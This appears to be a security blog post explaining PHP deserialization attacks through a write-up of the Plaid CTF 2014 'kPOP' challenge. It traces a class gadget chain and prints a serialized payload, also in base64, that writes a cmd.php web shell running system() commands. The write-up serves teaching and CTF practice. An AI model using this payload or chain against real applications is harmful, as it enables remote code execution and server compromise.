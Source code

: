 ```yaml
---
layout:     post
title:      Exploring Deserialization Attacks and Their Effects
date: 2024-09-07 12:00
summary:    Uncover how deserialization attacks work with real-world example and learn how to mitigate their risks.
categories: security
---
```


Cheers!
<br />
I took a short break and returned with a new security post :relaxed:
<br /><br />
Let's discuss today on what Deserialization is and give a demonstration example, as it can sometimes can lead to Remote Code Execution (RCE), Privilege Escalation and additional weaknesses with severe impacts on the entire application.
<br /><br />
This time, I was digging deep inside the Internet and discovered a cool Deseralization challenge from '<a href="https://ctftime.org/event/119">Plaid CTF 2014</a>' called 'the kPOP challenge' which will help us better understand this vulnerability in this blog post.
<br /><br />
__Note:__ This challenge can be solved using two different approaches to achieve the same outcome. In this post, we chose to present one of them.
<br /><br />
The CTF source code files can be downloaded directly from <a href="https://github.com/pwning/plaidctf2014/tree/master/web/kPOP">plaidctf2014 </a> Github repo.

<p align="center">
  <img src="{{ site.url }}/images/i_dunno_what_to_choose.jpeg" alt="i_dunno_what_to_choose" />
</p>

<br />
Let's get started –
<br /><br />
Applications, in general, often rely on handling serialized data to function correctly. It's crucial to examine how this data is deserialized to ensure it's done safely. As attackers or researchers, we focus on instances where data is deserialized without proper validation or where serialized input is directly trusted. These deserialization opportunities, known as `sinks` can occur in a specific functions like `unserialize()` and `serialize()` that depend on user-provided input.
<br /><br />
Once we understand what we're looking for, let's take a closer look at the application's source code:
<br /><br />
The first step is to identify the PHP classes used within the application and examine their relationships and interactions. This can be easily done by using the `CTRL+SHIFT+F` shortcut in Visual Studio Code:
<br />
<p align="center">
  <img src="{{ site.url }}/images/vscode_classes_list.png" alt="vscode_classes_list" />
</p>

In order to better understand the relationships between kPOP classes in a more visual way, we can create a UML diagram based on the above class properties using PlantUML Editor[^1]. This diagram represents the system's structure and design, illustrating the various classes and their relationships, including inheritance, associations, and dependencies:
<br />

<p align="center">
  <img src="{{ site.url }}/images/kpop_uml.png" alt="kpop_uml" />
</p>
<p align="center">kPOP UML Diagram</p>

<br />
Once we have a basic understanding of the class relations, let's focus on the relevant `sinks` that handle serialization based on user-supplied input.
<br />
Using the same method in VSCode, let's search for all occurrences of the `unserialize` function in the code:
<br /><br />

<p align="center">
  <img src="{{ site.url }}/images/unserialize_function.png" alt="unserialize_function" />
</p>
The search results reveal three different occurrences, spread across two files:
* classes.php
* import.php

We can see that some occurrences of `serialize` depend on SQL return results (e.g., $row[0]), which are not influenced by user input. However, the other instances appear to be more promising for us.
<br /><br />
We will focus on the `import.php` file:
<br />
<p align="center">
  <img src="{{ site.url }}/images/unserialize_import_php.png" alt="unserialize_import_php" />
</p>
Which appears like this in the browser UI:
<p align="center">
  <img src="{{ site.url }}/images/import_php_file.png" alt="import_php_file" />
</p>
<p align="center">http://127.0.0.1/kPOP/import.php</p>
<br />
Class objects are immediately get deserialized once an `unserialize` call is triggered. We can exploit line 5 in the image above to inject our malicious class object, which will be demonstrated later in this article.
<br /><br />
At this stage, we have an injection entry point that depends on the provided `$_POST['data']` parameter and get serialized. Let's now take a closer look at the class declarations themselves.

When examining the code, the function that immediately caught my eye on is `file_put_contents` within the `writeLog` function, located in the `LogWriter_File` class inside `classes.php` file:

<p align="center">
  <img src="{{ site.url }}/images/logwriter_file_put_contents.png" alt="logwriter_file_put_contents" />
</p>
<p align="center">LogWriter_File declaration</p>

To better understand its usage, I referred to the `PHP.net` documentation page:

<p align="center">
  <img src="{{ site.url }}/images/file_put_contents_php.png" alt="file_put_contents_php" />
</p>
<p align="center">PHP.net Manual</p>

This function can be our <ins>first primitive</ins> for finding a way to write a malicious file on the web server's filesystem, which could serve as a web shell backdoor for executing shell commands!
<br /><br />
So, if we can control the filename written to disk (e.g., `cmd.php`) and its contents, we can write PHP code such as `system()` function to execute any command that we want.

We need to keep this in mind as we piece together the relationships between all the other classes, much like solving a puzzle, to successfully navigate this path and create our final malicious class object 😈

<br />
Let's continue on. In order to control the written filename, we need to identify which class holds this filename as a variable and gain control over it in our class object. This is illustrated in the following image:

<p align="center">
  <img src="{{ site.url }}/images/logwriter_file_filename.png" alt="logwriter_file_filename" />
</p>
<p align="center">Song class contains LogWriter_File object instance</p>

LogWriter_File is the relevant class. In the class declaration, we can see that the `$filename` variable is set to our desired file name within the LogWriter_File constructor (refer to the 'LogWriter_File Declaration' picture).

In the same image, we can also see that the content of the file is stored in the `$txt` parameter within the `writeLog` function of the LogWriter_File class.
<br />
The `$txt` content is controlled by executing the `log()` function within the Song class, which consists of a concatenation of the `name` and `group` properties of the Song class.

To control both the filename and content of the file using the `file_put_contents` function, we need to follow the class calling orders and determine where and by whom the `writeLog` function is invoked.

Let's illustrate this in the following picture:

<p align="center">
  <img src="{{ site.url }}/images/flow_write_diagram.png" alt="flow_write_diagram" />
</p>
<p align="center">Classes calling order</p>

We can see that the `Song` class is the one that initiates the entire class calling sequence to our desired `file_put_contents` function.

<br />
To summarize what we’ve covered so far:
  1. We need to exploit the `file_put_contents` functionality to write a webshell.
  2. We need to initialize the `$filename` variable under the LogWriter_File class with a value of `cmd.php`.
  3. We need to insert our malicious PHP code as a content to the `cmd.php` file triggered by the `writeLog` function.
  4. Finally, we need to invoke the correct sequence order of classes in our final payload, as shown above.

<p align="center">
  <img src="{{ site.url }}/images/all_the_magic_happens.jpg" alt="all_the_magic_happens" />
</p>

Let's put all the pieces together to create the payload as a one big serialized object:

`O:6:"Lyrics":2:{s:9:"*lyrics";s:12:"shell_lyrics";s:7:"*song";O:4:"Song":4:{s:9:"*logger";O:6:"Logger":1:{s:12:"*logwriter";O:14:"LogWriter_File":2:{s:11:"*filename";s:7:"cmd.php";s:9:"*format";O:13:"LogFileFormat":2:{s:10:"*filters";a:1:{i:0;O:12:"OutputFilter":2:{s:15:"*matchPattern";s:19:"/\[i\](.*)\[\/i\]/i";s:14:"*replacement";s:9:"\1";}}s:7:"*endl";s:1:" ";}}}s:7:"*name";s:35:"";s:8:"*group";s:11:"shell_group";s:6:"*url";s:19:"https:\/\/shell.com";}}`

<br />
The final serialized payload to be injected as a HTTP POST parameter in base64 format wil follow:

`Tzo2OiJMeXJpY3MiOjI6e3M6OToiACoAbHlyaWNzIjtzOjEyOiJzaGVsbF9seXJpY3MiO3M6`
<br />
`NzoiACoAc29uZyI7Tzo0OiJTb25nIjo0OntzOjk6IgAqAGxvZ2dlciI7Tzo2OiJMb2dnZXIi`
<br />
`OjE6e3M6MTI6IgAqAGxvZ3dyaXRlciI7TzoxNDoiTG9nV3JpdGVyX0ZpbGUiOjI6e3M6MTE6`
<br />
`IgAqAGZpbGVuYW1lIjtzOjc6ImNtZC5waHAiO3M6OToiACoAZm9ybWF0IjtPOjEzOiJMb2dG`
<br />
`aWxlRm9ybWF0IjoyOntzOjEwOiIAKgBmaWx0ZXJzIjthOjE6e2k6MDtPOjEyOiJPdXRwdXRG`
<br />
`aWx0ZXIiOjI6e3M6MTU6IgAqAG1hdGNoUGF0dGVybiI7czoxOToiL1xbaVxdKC4qKVxbXC9p`
<br />
`XF0vaSI7czoxNDoiACoAcmVwbGFjZW1lbnQiO3M6OToiPGk+XDE8L2k+Ijt9fXM6NzoiACoA`
<br />
`ZW5kbCI7czoxOiIKIjt9fX1zOjc6IgAqAG5hbWUiO3M6MzU6Ijw/cGhwIHN5c3RlbSgnbHMg`
<br />
`LWw7IGNhdCBmbGFnJyk7ID8+IjtzOjg6IgAqAGdyb3VwIjtzOjExOiJzaGVsbF9ncm91cCI7`
<br />
`czo2OiIAKgB1cmwiO3M6MTk6Imh0dHBzOlwvXC9zaGVsbC5jb20iO319`


We can use the Online PHP Unserializer[^2] to visualize the encoded payload in a Class Object format:
<br />

<p align="center">
  <img src="{{ site.url }}/images/unserialize_poc.png" alt="unserialize_poc" />
</p>
<p align="center">PHP Class Object representation</p>

### Conclusion

Deserialization vulnerabilities have quite high entry barrier and require strong programming and research skills, making them as one of the most difficult vulnerabilities to identify in web applications. However, they have the most impactful severities once discovered.

I challenge you to keep looking after these vulnerabilities and not give up!

<p align="center">
  <img src="{{ site.url }}/images/deserialization_was_easy.jpeg" alt="deserialization_was_easy" />
</p>
<br />
Thanks for reading!

<br />
__Disclaimer:__ This material is for informational purposes only, and should not be construed as legal advice or opinion. For actual legal advice, you should consult with professional legal services.

---

[^1]: [PlantUML Online Editor](https://www.plantuml.com/)
[^2]: [Online PHP Unserializer](https://www.unserialize.com/)